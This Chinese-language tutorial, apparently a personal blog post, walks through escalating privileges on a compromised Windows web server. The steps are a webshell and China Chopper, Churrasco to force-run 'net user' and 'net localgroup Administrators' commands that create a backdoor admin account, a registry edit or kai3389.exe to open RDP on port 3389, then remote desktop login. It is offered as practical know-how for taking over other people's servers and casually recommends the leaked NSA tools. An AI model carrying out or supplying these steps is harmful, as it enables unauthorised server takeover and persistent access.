







系统为了都有有权限管理系统，根据权限高低来决定用户在这台机器上能做的事。

比如有的文件规定了低权限用户是无法读写的，而这些文件通常是我们想要获取的敏感文件。

有的文件夹是规定不能读写的，那么我们就不能上传任何到这个文件夹，也无法从这个文件夹里运行任何程序，所以我们连接上服务器都要找一个可读可写的文件夹来继续上传我们需要的程序，如开后门的程序。

一般的网站都存储在服务器权限比较低的文件夹里， 所以即使我们上传了WebShell，最多也只能够对网站所在的文件夹操作，而不能完整的控制整个服务器。所以我们需要进行提权，以一个权限相当高的用户来访问该服务器。

Windows中以用户组来分配权限，每个用户组有不同的权限，其中最高权限用户组是Administrators组，拥有对整个系统进行操作system权限。每个用户组下可以创建多个用户。

在Win10以前的Windows系统版本中，可以通过 右键此电脑=》管理=》系统工具=》本地用户和组来查看用户组及用户组中的用户。



## 0x01 大马和菜刀

我试过各种大马，功能其实都大同小异，不过不知道是不是我使用的原因，里面的cmd并不怎么好用。大马里我个人觉得最有用的就是查看文件权限属性的功能，这个使我们在找后门上传点的时候是非常好用的，并且这个功能在菜刀里是没有的。

这种php大马可以在Perms项下看到文件的读写权限属性。 



而菜刀比较好的的就是比较适合人类查看的文件目录界面，和虚拟终端。所以通常将两者结合起来用。右键任意可执行文件打开虚拟终端。 


## 0x02 巴西烤肉提权

创建系统用户的命令如下：

- 新建一个用户 

```text
net user [username] [password] /add
```

- 添加到Administrators用户组

```text
net localgroup Administrators [username] /add
```

- 激活用户

```text
net user [username] /active:yes
```

由于一般网站被放在服务器中权限比较低的文件夹中，因此直接创建Administrator用户的命令是不被执行的。

巴西烤肉是一个非常强劲的程序，它可以无视拒绝强制执行cmd命令，经常被用到提权中。

我们通过菜刀将cmd.exe和巴西烤肉上传到网站文件夹中。




然后右键cmd.exe打开虚拟终端，先将终端路径设置为我们自己上传的cmd.exe，再尝试直接创建用户，报错命令被拒绝执行。（其实这里是一个Ubuntu Linux服务器）







====================================================================== 


由于后来没找到Windows服务器的网站模板，因此下面就不带图了，过程全部手打还原，谅解

======================================================================

先将终端路径设置为我们自己上传的cmd.exe

```text
SETP ../../www/uploads/cmd.exe
```

再用巴西烤肉强制执行命令。巴西烤肉语法：Churrasco.exe "your command"

```text
Chu.exe "net user [username] [password] /add & net localgroup Administrators [username] /add"
```

若无报错，那么我们就已经成为系统管理员账户了。查看当前用户会发现我们创建的用户：

```text
net user
```

至此，我们已经创建了超级权限的用户，已经可以对整个服务器进行操作了。但是在终端里操作总有些不方便，下面我们介绍一下拿下权限后如何远程连接进行桌面操作。

## 0x03 3389端口服务

远程桌面协议（RDP, Remote Desktop Protocol）是一个多通道（multi-channel）的协议，让用户（客户端或称“本地电脑”）连上提供微软终端机服务的电脑（服务器端或称“远程电脑”）。大部分的Windows都有客户端所需软件。服务端电脑方面，**默认听取送到TCP3389端口的数据**。【百度百科】

这是一种非常方便的对服务器的操作方式，一般的网站管理员都会开启3389端口远程桌面服务。而有的安全素养比较高的管理员则会选择将3389端口关闭，甚至开启防火墙禁止任何开启3389的操作。

*闲扯一下，最近Shadow Broker泄露的NSA的工具，内网里开3389的服务器一打一个准，有空的可以去玩玩。misterch0c/shadowbroker* 

在无防火墙的情况下，我们可以用cmd命令来添加注册表开启3389端口，或者使用别人留下的工具。

- cmd命令

将以下命令写入一个.bat文件，将其拖入服务器可读写目录执行，即可开启3389端口。

此种对Windows XP 和2003系统有用，不用重起

```text
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

- 写好的程序

  

  ```text
  Chu.exe "kai3389.exe"
  ```

  就行了

*在有防火墙的情况下，需将防火墙先关闭，再用lcx.exe将3389映射到其他端口上，这个等我搞懂了再写。*

## 0x04 RDP远程桌面连接

创建好用户，开启远程桌面功能，就可以用此用户远程登陆别人的服务器直接进行桌面操作，岂不是美滋滋。

Win+R 打开【运行】窗口，运行

```text
mstsc /admin
```

用直接创建的用户名和密码登录，OK。